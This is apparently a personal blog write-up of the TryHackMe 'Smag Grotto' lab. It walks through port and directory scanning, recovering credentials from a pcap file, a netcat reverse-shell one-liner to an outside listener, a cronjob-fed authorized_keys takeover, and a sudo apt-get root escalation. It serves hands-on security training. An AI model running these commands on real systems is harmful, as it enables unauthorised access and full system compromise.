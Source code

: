 ```yaml
---
title: "TryHackMe - Smag Grotto"
author: Nasrallah
description: ""
date: 2022-12-11 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, easy, wireshark, ssh-keygen, sudo, cronjob]
img_path: /assets/img/tryhackme/smaggrotto
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Smag Grotto](https://tryhackme.com/room/smaggrotto) from [TryHackMe](https://tryhackme.com). On a webpage we find a pcap file that contains credentials for a login page, we use them to login and find out we can run commands on the system so we use that to get a reverse shell. After that we exploit a cronjob running to escalate to another user on the system. A sudo entry then is used to get root.

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.49.239
Host is up (0.12s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 74:e0:e1:b4:05:85:6a:15:68:7e:16:da:f2:c7:6b:ee (RSA)
|   256 bd:43:62:b9:a1:86:51:36:f8:c7:df:f9:0f:63:8f:a3 (ECDSA)
|_  256 f9:e7:da:07:8f:10:af:97:0b:32:87:c9:32:d7:1b:76 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Smag
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found two open ports, 22 running OpenSSH and port 80 running Apache http web server.

### Web

Let's navigate to the web page.

![](1.png)

We see the welcome page of Smag informing us that the site in under development.

### Ffuf

Let's run a directory scan.

```terminal
└──╼ $ ffuf -c -w /usr/share/wordlists/dirb/common.txt -u http://10.10.49.239/FUZZ                                                                        1 ⨯

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.4.1-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.49.239/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

.hta                    [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 138ms]
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 135ms]
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 132ms]
                        [Status: 200, Size: 402, Words: 69, Lines: 13, Duration: 142ms]
index.php               [Status: 200, Size: 402, Words: 69, Lines: 13, Duration: 166ms]
mail                    [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 216ms]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 141ms]
:: Progress: [4614/4614] :: Job [1/1] :: 75 req/sec :: Duration: [0:01:10] :: Errors: 0 ::
```

We found a page called **page**, let's check it out.

![](2.png)

As expected, we see emails between the website's admins/developers, in one of the emails we see a pcap file, let's download it and inspect it using `wireshark`.

### Wireshark

![](3.png)

We can see a `POST` request to `login.php`, let's see the request's body by right clicking on it -> Follow -> HTTP stream.

![](4.png)

We found a username and password.

The `login.php` is located at `development.smag.thm`, let's add the domain and subdomain to our /etc/hosts file.

![](5.png)

Now let's navigate to `http://development.smag.thm/`.

![](6.png)

Let's go to the login page.

![](7.png)

Using the credentials we found in the pcap file, let's login.

![](8.png)

## **Foothold**

We can enter commands here, i tried some commands like `id` and `whoami` but didn't get any response, so i tried to get a reverse shell using the following command:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.18.0.188 9001 >/tmp/f
```

I setup a netcat listener, run the command and got the shell.

![](9.png)

## **Privilege Escalation**

After some enumeration, we check the crontab file and find the following:

```terminal
www-data@smag:/opt/.backups$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    /bin/cat /opt/.backups/jake_id_rsa.pub.backup > /home/jake/.ssh/authorized_keys
```

There is a cronjob running every minute printing the content of `/opt/.backups/jake_id_rsa.pub.backup` to `/home/jake/.ssh/authorized_keys`.

Let's check the `jake_id_rsa.pub.backup` file.

![](10.png)

We can modify that file, so let's copy our own public key to it, wait a minute and try to connect as jake via ssh.

First, we generate a new key pair using `ssh-keygen`

![](11.png)

Now copy the public key to `jake_id_rsa.pub.backup` file.

![](13.png)

Now we wait a bit and connect as jake using our ssh private key.

![](14.png)

Great! Now let's check our current privileges with `sudo -l`.

```bash
jake@smag:~$ sudo -l
Matching Defaults entries for jake on smag:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on smag:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get

```

We see that we can run `apt-get` as root, let's go to [GTFOBins](https://gtfobins.github.io/gtfobins/apt-get/#sudo).

![](15.png)

We see three different ways to get root, but we'll use the 3rd one.

```bash
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```



---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

